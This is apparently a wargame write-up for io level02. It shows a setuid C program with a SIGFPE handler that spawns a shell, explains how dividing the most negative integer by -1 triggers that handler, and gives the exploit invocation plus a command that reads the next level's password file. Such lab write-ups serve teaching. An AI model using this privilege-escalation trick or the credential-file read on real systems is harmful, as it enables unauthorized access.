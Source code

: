 ```yaml
---
custom_edit_url: null
sidebar_position: 2
---
```


## Source code
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void catcher(int a)
{
    setresuid(geteuid(),geteuid(),geteuid());
    printf("WIN!\n");
    system("/bin/sh");
    exit(0);
}

int main(int argc, char **argv)
{
	puts("source code is available in level02.c\n");

    if (argc != 3 || !atoi(argv[2]))
        return 1;
    signal(SIGFPE, catcher);
    return abs(atoi(argv[1])) / atoi(argv[2]);
}
```
The `catcher()` function is what we want to call.

The `main()` function returns the division of the second and third argument, first being the program name itself.

The program makes `signal` syscall which sets a handler function for a signal. This handle function gets called when the signal is received.
```c
sighandler_t signal(int signum, sighandler_t _handler);
```
In our case the signal is `SIGFPE` and the handler function is `catcher()`.
If we look at the man-page, it tells us when a `SIGFPE` signal is generated.
```
Integer division by zero has undefined result.  On some architectures it will generate a SIGFPE signal.  
(Also dividing the most negative integer by -1 may generate **SIGFPE**.)
```
So `SIGFPE` is generated during divisions, and there is a division occurring in our program.

We cannot perform division by zero because our `argv[2]` is the divisor and the program doesn't allow for it to be zero.
However, `argv[2]` can be -1. Which means we just have to figure out what the most negative integer is and pass it as `argv[1]`
```
level2@io:/levels$ ./level02 -4294967296 -1
source code is available in level02.c

WIN!
sh-4.3$
```
We can cat the password for the next level now.
```
sh-4.3$ cat /home/level3/.pass
```
